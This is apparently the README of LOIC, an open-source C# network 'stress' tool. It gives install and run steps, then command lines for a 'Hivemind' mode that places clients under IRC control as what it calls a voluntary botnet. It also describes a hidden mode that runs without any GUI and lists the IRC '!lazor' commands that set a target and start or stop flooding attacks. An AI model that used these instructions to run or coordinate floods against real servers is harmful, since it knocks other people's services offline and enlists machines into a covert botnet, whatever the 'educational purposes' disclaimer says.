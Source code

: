 ## INFO

Low Orbit Ion Cannon (**LOIC**) is an open source network stress tool, written in C#.
LOIC is based on Praetox's LOIC project at https://sourceforge.net/projects/loic/ .

## DISCLAIMER

LOIC is for educational purposes only, intended to help server owners develop a "hacker defense" attitude. This tool comes without any warranty.

**You may not use this software for illegal or unethical purposes. This includes activities which give rise to criminal or civil liability.**

**Under no event shall the licensor be responsible for any activities, or misdeeds, by the licensee.**

## HOW TO RUN ON WINDOWS

GET THE BINARIES!

Requires Microsoft .NET Framework 3.5 Service Pack 1, available at:
http://www.microsoft.com/downloads/en/details.aspx?FamilyID=ab99342f-5d1a-413d-8319-81da479ab0d7&displaylang=en

## HOW TO RUN ON LINUX / MACOSX

Run debug binaries with Mono or Wine.
Read the wiki at https://github.com/NewEraCracker/LOIC/wiki/_pages for updated instructions.

## HIVEMIND/HIDDEN MODE

HIVEMIND mode will connect your client to an IRC server so it can be controlled remotely.
Think of this as a voluntary botnet. Please be aware that your client can potentially be
made to do naughty things.

Note: It does NOT allow remote administration of your machine; it 
just providees control of LOIC itself.

If you want to start up in Hivemind mode, run something such as this:
```
	LOIC.exe /hivemind irc.server.address
```
which will connect to irc://irc.server.adress:6667/loic

You can also specify a port and channel:
```
	LOIC.exe /hivemind irc.server.address 1234 #secret
```
which will connect to irc://irc.server.adress:1234/secret

In order to run Hivemind Hidden mode, run something such as this:
```
	LOIC.exe /hidden /hivemind irc.server.address
```
which will connect to irc://irc.server.adress:6667/loic without any visible GUI.

## CONTROLLING LOIC FROM IRC

As an OP, Admin or Owner, set the channel topic or send a message such as the following:
```
	!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true
```

To start an attack, type:
```
	!lazor start
```

or append "start" to the END of the topic:
```
	!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true start
```

To reset LOIC's options back to their defaults:
```
	!lazor default
```

To stop an attack:
```
	!lazor stop
```

and **be sure to remove "start" from the END of the topic**, if it exists, as well.

Take a look at the source code for more details.